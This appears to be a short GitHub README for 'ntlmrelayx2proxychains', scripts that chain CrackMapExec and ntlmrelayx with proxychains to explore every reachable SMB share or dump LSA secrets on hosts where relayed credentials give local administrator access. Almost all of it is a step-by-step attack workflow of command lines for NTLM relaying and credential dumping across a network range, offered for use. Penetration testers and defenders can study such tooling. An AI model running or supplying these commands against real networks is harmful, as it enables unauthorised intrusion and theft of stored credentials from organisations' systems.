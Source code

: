 # ntlmrelayx2proxychains

Ever felt too lazy to explore all shares manually after using ntlmrelayx or felt too lazy to dump the lsa on all systems where you found a local administrator? If so, enjoy my scripts! :) 

## Steps to follow:
1) `cme smb -u "" -p "" -d domain.tld 0.0.0.0/22 --gen-relay-list targetlist`
2) `ntlmrelayx.py -tf targetlist -socks -smb2support`
3) to explore all shares or dump the lsa cache using proxychains cme: `$bash ./ntlmrelayx2shares` or `$bash ./ntlmrelayx2lsa`

Note: ensure you put bash in front of your command.
